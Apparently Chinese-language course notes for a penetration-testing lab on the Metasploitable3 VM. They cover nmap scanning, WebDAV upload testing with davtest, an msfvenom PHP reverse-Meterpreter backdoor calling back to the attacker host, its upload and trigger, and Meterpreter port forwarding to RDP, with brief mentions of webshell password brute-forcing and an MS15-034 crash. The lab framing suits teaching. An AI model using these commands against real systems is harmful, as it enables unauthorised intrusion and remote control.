










# 课程P1：Metasploitable3靶机渗透测试入门 🎯

在本节课中，我们将学习如何对Metasploitable3靶机进行初步的信息收集与渗透测试。课程将涵盖从环境搭建、端口扫描到利用WebDAV漏洞获取初始权限的全过程。

## 概述

Metasploitable3是一个专为渗透测试和安全研究设计的靶机环境。它基于Windows Server 2008 R2系统，内置了多种漏洞和服务，用于模拟真实的攻击场景。与之前的版本相比，Metasploitable3增加了防火墙、权限控制等安全机制，使其更贴近当前的实际环境。


## 环境搭建与信息收集


上一节我们介绍了Metasploitable3靶机的基本情况，本节中我们来看看如何搭建环境并进行初步的信息收集。

信息收集是渗透测试中至关重要的一环，通常需要花费大量时间。充分的信息收集能为后续的渗透攻击提供明确的指引。

以下是进行信息收集时常用的几种方法和工具：

*   Nmap：用于扫描目标主机的开放端口、服务版本和操作系统信息。
*   Kali Linux：集成了多种渗透测试工具的Linux发行版。
*   Dirb/Dirbuster：用于探测Web目录和隐藏文件的工具。
*   搜索引擎：如Shodan、Google等，用于搜索目标暴露在公网的信息。




在本次演示中，我们使用Kali Linux系统，目标靶机IP为`192.168.1.151`。我们首先使用Nmap进行全面的端口扫描。

```bash
nmap -sS -sV -O -p- -Pn 192.168.1.151 -oX scan_result.xml
```

**命令参数解释**：
*   `-sS`: SYN半开式扫描。
*   `-sV`: 探测服务版本。
*   `-O`: 探测操作系统。
*   `-p-`: 扫描所有端口（1-65535）。
*   `-Pn`: 跳过主机发现，将所有主机视为在线。
*   `-oX`: 将扫描结果输出为XML格式。



扫描结果显示靶机开放了多个端口，包括：
*   21端口：FTP服务。
*   22端口：SSH服务。
*   80端口：HTTP Web服务（IIS 7.5）。
*   8585端口：另一个HTTP服务（运行WAMP环境，包含WebDAV）。


## Web服务探测与漏洞发现


在完成基础信息收集后，我们重点探测了80端口和8585端口的Web服务。


访问80端口，发现一张包含Flag信息的图片。访问8585端口，发现一个由WAMP搭建的集成环境，其中包含一个WordPress博客和一个名为“upload”的疑似上传点，但页面上传功能不可见。

这种情况提示我们可能存在WebDAV（基于Web的分布式创作和版本控制）服务。WebDAV允许用户通过HTTP协议直接管理服务器上的文件。

为了测试WebDAV是否存在漏洞，我们使用Kali Linux自带的`davtest`工具。该工具可以自动测试WebDAV服务器是否允许上传和执行特定类型的文件。

```bash
davtest -url http://192.168.1.151:8585/
```

运行结果显示，服务器成功上传并执行了`.txt`、`.php`、`.html`等测试文件，这证实了该WebDAV服务存在配置漏洞，允许上传可执行脚本。


## 利用漏洞获取Shell







确认漏洞存在后，下一步是利用它上传一个Web后门，从而获取目标系统的反向Shell连接。



我们使用Metasploit框架生成一个PHP反向连接后门。




```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.152 LPORT=555 -f raw -o backdoor.php
```

**命令参数解释**：
*   `-p php/meterpreter/reverse_tcp`: 指定Payload类型为PHP反向Meterpreter。
*   `LHOST=192.168.1.152`: 指定攻击者（Kali）的IP地址。
*   `LPORT=555`: 指定攻击者监听的端口。
*   `-f raw`: 输出格式为原始PHP代码。
*   `-o backdoor.php`: 输出到`backdoor.php`文件。

接着，在Metasploit中启动对应的监听模块。


```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.1.152
set LPORT 555
exploit
```

然后，使用`davtest`工具将生成的`backdoor.php`文件上传到靶机WebDAV目录，并重命名为`demo.php`。

```bash
davtest -url http://192.168.1.151:8585/ -uploadfile backdoor.php -uploadloc demo.php
```

上传成功后，通过浏览器访问`http://192.168.1.151:8585/demo.php`。此时，Metasploit的监听端会成功接收到来自靶机的反向连接，建立一个Meterpreter会话。通过该会话，我们可以执行系统命令、浏览文件目录等。

## 权限提升与横向移动（思路）

在获得初始立足点后，渗透测试进入后渗透阶段。本节我们探讨如何利用现有权限进行深入探索。

通过Meterpreter会话，我们获取了系统信息，确认其为Windows Server 2008 R2。一个常见的需求是访问靶机的远程桌面（RDP，端口3389），但直接连接发现被防火墙阻止。

我们可以利用已建立的Meterpreter会话进行端口转发，将靶机的3389端口映射到本地的某个端口。

在Meterpreter会话中执行：
```bash
portfwd add -L 127.0.0.1 -l 7777 -p 3389 -r 192.168.1.151
```
**命令参数解释**：
*   `add`: 添加转发规则。
*   `-L 127.0.0.1`: 本地监听地址。
*   `-l 7777`: 本地监听端口。
*   `-p 3389`: 要转发的目标端口。
*   `-r 192.168.1.151`: 目标主机地址。

添加成功后，在攻击机上连接`127.0.0.1:7777`，即可通过隧道访问靶机的远程桌面服务。

此外，课程还演示了其他技巧，例如利用扫描到的SSH服务（22端口）进行隧道转发，以及使用Metasploit模块爆破“中国菜刀”WebShell的管理密码，并成功连接。

最后，作为一个演示，课程展示了利用MS15-034 HTTP.sys远程代码执行漏洞，导致靶机IIS服务崩溃蓝屏的效果，强调了漏洞的危害性。

## 总结与资源推荐

本节课中我们一起学习了针对Metasploitable3靶机的完整渗透测试流程。



我们从信息收集开始，使用Nmap扫描目标。接着，我们发现了8585端口不安全的WebDAV服务，并利用`davtest`工具验证了文件上传漏洞。然后，我们使用Metasploit生成PHP后门，通过WebDAV上传并触发，成功获得了Meterpreter反向Shell。最后，我们探讨了在后渗透阶段进行端口转发、访问RDP服务以及利用其他漏洞的方法。




以下是讲师推荐的一些延伸学习资源：



*   **视频教程**：
    *   《Metasploit Unleashed》 by Offensive Security（免费，9小时）
    *   《Metasploit Megaprimer》 by Vivek Ramachandran（YouTube，13小时）
    *   《菜鸟腾飞Metasploit渗透测试》 by 飞飞老师
    *   《Metasploit教程》第一、二季 by 工具官方
*   **书籍**：
    *   《Metasploit渗透测试魔鬼训练营》
    *   《渗透测试实践指南》


通过本课程的学习，你应该对基础的渗透测试步骤和Metasploit框架的基本使用有了初步了解。请务必在合法授权的环境中进行练习。